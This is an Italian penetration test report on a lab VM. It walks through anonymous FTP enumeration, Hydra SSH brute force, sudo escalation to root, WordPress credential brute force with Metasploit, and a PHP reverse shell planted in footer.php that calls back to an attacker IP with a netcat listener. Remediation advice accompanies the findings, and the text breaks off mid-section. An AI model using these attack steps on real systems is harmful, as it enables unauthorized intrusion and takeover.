# Report di Penetration Test Black Box

**Target:** 192.168.50.9  
**Tipo di Test:** Penetration Test Black Box  
**Tester:** Nicola Guidi  
**Data:** 27 Gennaio 2026

---

## Disclaimer

Questo report rappresenta una **fotografia puntuale dello stato di sicurezza** del sistema target alla data del test. Le vulnerabilità identificate e documentate sono il risultato dell'analisi condotta nel periodo di tempo stabilito e con la metodologia concordata.

**Limitazioni del Test:**

- Il penetration test non garantisce l'identificazione di **tutte** le vulnerabilità presenti nel sistema
- Nuove vulnerabilità potrebbero emergere in qualsiasi momento a seguito di:
  - Modifiche alla configurazione del sistema
  - Installazione di nuovi software o aggiornamenti
  - Pubblicazione di nuove CVE (Common Vulnerabilities and Exposures)
  - Cambiamenti nell'infrastruttura di rete
- I risultati sono validi **esclusivamente** per il momento dell'esecuzione del test
- Vulnerabilità non rilevate potrebbero esistere ma non essere state scoperte a causa di:
  - Vincoli temporali del test
  - Limitazioni metodologiche
  - Complessità del sistema target
  - Configurazioni specifiche non testate

---

## Sommario Esecutivo

Durante il penetration test black box condotto sul sistema target 192.168.50.9, sono state identificate **vulnerabilità critiche** che hanno permesso la completa compromissione del sistema attraverso **due percorsi di attacco distinti**:

### Attack Path #1: Brute Force SSH + Sudo Misconfiguration

1. **Accesso FTP anonimo** con information disclosure (lista utenti)
2. **Credenziali SSH deboli** individuate tramite brute force (anne:princess)
3. **Privilege escalation** tramite configurazione sudo non sicura

### Attack Path #2: WordPress Initial Access + Cron Job Exploitation

1. **Scoperta installazione WordPress** tramite robots.txt
2. **Brute force credenziali WordPress** (john:enigma)
3. **Iniezione PHP Reverse Shell** tramite Theme Editor
4. **Privilege escalation** via cron job world-writable (/usr/local/bin/cleanup)

Entrambi i percorsi hanno portato ad **ACCESSO ROOT COMPLETO**. Il sistema presenta un **livello di rischio CRITICO** e richiede interventi immediati di remediation.

---

## Scope del Test

**Sistemi Target:**
- 192.168.50.9 (Linux Ubuntu 12.04 LTS)

**Sistemi Esclusi:**
- n/d

---

## Information Gathering

### Fase 1: Ricognizione e Scoperta Host - ARP Scan

**Strumento:** netdiscover

**Comando:**
```bash
sudo netdiscover
```



**Risultati:**
- **Target Identificato:** 192.168.50.9
- **Indirizzo MAC:** 08:00:27:f3:f2:8b
- **Vendor:** PCS Systemtechnik GmbH (VirtualBox)

**Analisi:** La scansione ARP ha identificato con successo il target nel range di rete specificato.

---

### Fase 2: Vulnerability Assessment Iniziale (Non Autenticato)

**Strumento:** Nessus Essentials

**Tipo di Scansione:** Basic Network Scan (Non Autenticata)





**Vulnerabilità Rilevate:**

#### CRITICA - Canonical Ubuntu Linux End of Life (12.04.x)

- **CVSS:** 10.0
- **Descrizione:** Il sistema operativo Ubuntu 12.04 LTS ha raggiunto l'end of life e non riceve più aggiornamenti di sicurezza
- **Impatto:** Vulnerabilità note non patchate, esposizione ad exploit pubblici
- **Remediation:** Upgrade a una versione supportata di Ubuntu (24.04 LTS)

#### Problematiche di Gravità Mista:

- **Apache HTTP Server** (Problematiche Multiple) - 3 vulnerabilità
- **Oracle MySQL** (Problematiche Multiple) - 5 vulnerabilità
- **SSH** (Problematiche Multiple) - 6 vulnerabilità
- **Canonical Ubuntu Linux** (Problematiche Multiple)

---

### Fase 3: Enumerazione Servizi di Rete

**Strumento:** Nmap

**Comando:**
```bash
sudo nmap -A -p- 192.168.50.9
```



**Porte Aperte & Servizi:**

| Porta | Protocollo | Servizio | Versione |
|-------|------------|----------|----------|
| 21 | TCP | FTP | vsftpd 2.3.5 |
| 22 | TCP | SSH | OpenSSH 5.9p1 |
| 80 | TCP | HTTP | Apache 2.2.22 |

**Risultati Chiave:**
- **FTP Anonymous Login Allowed** vsftpd 2.3.5
- **HTTP Server:** Apache 2.2.22 - /robots.txt
- **SSH Server:** OpenSSH 5.9p1 - versione datata

**Risultati Scansione Vulnerabilità Nmap:**
- Confermate le vulnerabilità rilevate da Nessus
- Identificata configurazione FTP non sicura

---

## Percorso di Attacco #1: SSH Exploitation

### Fase 1: Exploitation - Accesso FTP Anonimo

**Strumento:** FTP Client

**Vulnerabilità:** Anonymous FTP Login Enabled

**Passaggi di Exploitation:**



**File Scoperti:**
```bash
get users.txt.bk
```

**Contenuto di users.txt.bk:**



**Impatto:** Information disclosure critico - la lista di utenti validi del sistema è stata esposta tramite FTP anonimo. Questa informazione può essere utilizzata per attacchi di brute force mirati.

**Remediation:**
- Disabilitare l'accesso FTP anonimo
- Rimuovere file sensibili dalle directory FTP pubbliche
- Implementare autenticazione forte per FTP o considerare l'uso di SFTP/SCP

---

### Fase 2: Attacco Brute Force SSH

**Strumento:** Hydra

**Target Service:** SSH (port 22)

**Attack Type:** Dictionary-based brute force

**Tentativo Iniziale (Fallito):**
```bash
hydra -L users.txt.bk -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.50.9 ssh
```

**Errore Riscontrato:**



**Causa Principale:**

Alcuni degli utenti della lista non sono abilitati a collegarsi al servizio SSH utilizzando la password come metodo di autenticazione

---

### Fase 3: Test Manuali SSH

**Verifica manuale** degli utenti tramite connessione SSH diretta per verificare la risposta del server.



**Risultato Chiave:**

Solo l'utente **anne** accetta l'autenticazione tramite password, gli altri utenti richiedono autenticazione mediante crittografia asimmetrica.

---

### Fase 4: Brute Force SSH Riuscito (Utente: anne)

**Strumento:** Hydra

**Comando:**
```bash
hydra -l anne -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.50.9 ssh
```

**Risultati:**



**Credenziali Ottenute:**
- **Username:** anne
- **Password:** princess

**Impatto:** Compromissione completa dell'account utente tramite password debole.

**Remediation:**
- Implementare policy di password complesse
- Considerare l'uso di autenticazione a due fattori (2FA)
- Disabilitare l'autenticazione password-based in favore di chiavi SSH
- Implementare meccanismi di rate limiting

---

### Fase 5: Accesso Iniziale e Raccolta Informazioni Sistema

**Metodo di Accesso:** SSH

**Credenziali:** anne:princess

```bash
ssh anne@192.168.50.9
```

**Enumerazione Iniziale:**
```bash
anne@bsides2018:~$ whoami
anne
```

---

### Fase 6: Privilege Escalation a Root

**Metodo:** Sudo misconfiguration

**Discovery:**
```bash
anne@bsides2018:~$ sudo -l
[sudo] password for anne:
Matching Defaults entries for anne on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User anne may run the following commands on this host:
    (ALL : ALL) ALL
```

**Exploitation:**
```bash
anne@bsides2018:~$ sudo /bin/bash
```

**Proof of Privilege Escalation:**
```bash
root@bsides2018:~# whoami
root
```



**Impatto:** L'utente **anne** ha privilegi sudo completi senza restrizioni, permettendo l'escalation immediata a root.

**Remediation:**
- Rimuovere i privilegi sudo dall'utente anne o limitarli a comandi specifici
- Utilizzare sudoers con restrizioni granulari
- Audit regolare delle configurazioni sudo

---

### Fase 7: Post-Exploitation - Scansione Vulnerabilità Autenticata

**Strumento:** Nessus Essential

**Tipo di Scansione:** Credentialed Scan

**Credenziali Utilizzate:** anne:princess





**Vulnerabilità Critiche Scoperte:**

#### CRITICAL - Bash Remote Code Execution (Shellshock) - CVE-2014-6271 - NON EXPLOITABILE

**Descrizione:**

Il sistema è vulnerabile a Shellshock (CVE-2014-6271), una vulnerabilità critica in GNU Bash che permette l'esecuzione di codice arbitrario da remoto. Questa vulnerabilità è stata scoperta nel 2014 e colpisce versioni di Bash anteriori alla patch.

**Dettagli Tecnici:**
- L'exploit permette l'esecuzione di comandi arbitrari attraverso richieste HTTP, CGI scripts, DHCP, etc.
- CVSS Score: 10.0 (Maximum Severity)

**Risultati Chiave:**
- L'autenticazione ha permesso di identificare **95 vulnerabilità aggiuntive** non visibili senza credenziali
- Il numero di vulnerabilità CRITICAL è aumentato da 1 a 15
- Identificate vulnerabilità nel kernel, nelle librerie di sistema, e nei pacchetti installati

---

## Percorso di Attacco #2: WordPress Exploitation

Oltre al primo path di attacco tramite SSH, è stato identificato un **secondo vettore di attacco completamente indipendente** attraverso un'installazione WordPress non sicura presente sullo stesso host.

### Fase 1: Enumerazione Servizi Web - Scoperta robots.txt

**Strumento:** Nmap

**Comando:**
```bash
nmap -A -p- 192.168.50.9
```

**Risultato Chiave - HTTP robots.txt:**



**Analisi:** Il file robots.txt rivela la presenza della directory `/backup_wordpress`, indicando un'installazione WordPress backup o di test non adeguatamente protetta.

**Impatto:** Information disclosure che rivela la struttura delle directory e potenziali vettori di attacco.



---

### Fase 2: Scoperta Installazione WordPress

**Metodo di Accesso:** Browser

**URL:** http://192.168.50.9/backup_wordpress



**Findings:**

**Osservazioni Chiave:**
- WordPress installation attiva ma "deprecated"
- Username valido identificato: **john**
- Possibile target per brute force attack
- WordPress versione 4.5 (obsoleta)

---

### Fase 3: Enumerazione Pagina Login WordPress

**Strumento:** Metasploit Framework

**Module:** `auxiliary/scanner/http/wordpress_login_enum`



**Configurazione:**
```bash
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(scanner/http/wordpress_login_enum) > set RHOSTS 192.168.50.9
msf auxiliary(scanner/http/wordpress_login_enum) > set TARGETURI /backup_wordpress
msf auxiliary(scanner/http/wordpress_login_enum) > set PASS_FILE /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
msf auxiliary(scanner/http/wordpress_login_enum) > run
```

**Risultati della Detection:**
```
[*] /backup_wordpress - WordPress Version 4.5 detected
[+] /backup_wordpress - WordPress User-Validation - Username: 'john' - is VALID
```

---

### Fase 4: Brute Force Credenziali WordPress

**Strumento:** Metasploit Framework

**Module:** `auxiliary/scanner/http/wordpress_login_enum`

**Username:** john

**Wordlist:** /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt

**Esecuzione dell'Attacco:**
```bash
msf > search wordpress_login

Matching Modules
================
   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wordpress_login_enum        .                normal  No     WordPress Brute Force and User Enumeration Utility
```



**Credenziali Ottenute:**
- **Username:** john
- **Password:** enigma

**Impatto:** Accesso amministrativo completo al pannello WordPress, permettendo l'esecuzione di codice arbitrario.

**Analisi della Vulnerabilità:**
- Password debole (presente in common wordlist)
- Nessun rate limiting sui tentativi di login
- Nessuna protezione contro brute force
- Account amministratore con credenziali banali

---

### Fase 5: Accesso Pannello Admin WordPress

**Metodo di Accesso:** Web Browser

**URL:** http://192.168.50.9/backup_wordpress/wp-login.php

**Credenziali:** john:enigma


**Accesso alla Dashboard Admin Confermato:**



- Full administrative privileges
- Access to theme editor
- Ability to upload files
- Complete control over WordPress installation

---

### Fase 6: Enumerazione Dashboard WordPress

**Risultato Critico:** Theme Editor accessible - permette la modifica diretta di file PHP del tema.

---

### Fase 7: Accesso Theme Editor per Iniezione Codice

**Navigazione:** Appearance → Editor

**File Target:** Twenty Sixteen: Theme Footer (footer.php)

**Theme Editor:**



**Strategia di Exploitation:**

Iniettare una reverse shell PHP nel file footer.php che verrà eseguito ad ogni caricamento di pagina del blog.

---

### Fase 8: Iniezione PHP Reverse Shell

**Strumento:** Theme Editor (WordPress Admin Panel)

**File Target:** footer.php

**Tipo di Payload:** PHP Reverse Shell

**Injection della Reverse Shell:**



**Configurazione del Payload:**
- **Attacker IP:** 192.168.50.5 (Kali Linux)
- **Listening Port:** 4444
- **Shell Type:** /bin/sh interactive shell

Il codice della reverse shell è stato inserito al posto di quello del file footer.php, garantendo l'esecuzione automatica ogni volta che la pagina principale del sito viene caricata.

**Impatto:** Remote Code Execution (RCE) come utente www-data sul server web.

---

### Fase 9: Configurazione Listener Netcat

**Strumento:** Netcat

**Comando:**
```bash
nc -lvnp 4444
```

**Configurazione del Listener:**
```
listening on [any] 4444 ...
```

**Listener in ascolto:**

Il listener è in attesa che qualcuno carichi la home del WordPress blog, triggerando l'esecuzione della reverse shell.

---

### Fase 10: Connessione Reverse Shell Stabilita

**Trigger:** Navigazione su qualsiasi pagina WordPress

**URL Utilizzato:** http://192.168.50.9/backup_wordpress/

**Connessione Stabilita:**



---

### Fase 11: Enumerazione Post-Exploitation - Scoperta Cron Job

**Obiettivo:** Privilege escalation from www-data to root

**Enumerazione Sistema e Cron Job:**



**Risultato Critico:**
```
*  *    * * *   root    /usr/local/bin/cleanup
```

**Analisi:** Script eseguito **ogni minuto** come **root** e potenziale vettore per privilege escalation

---

### Fase 12: Analisi Permessi Script Cron

**Analisi dello Script:**

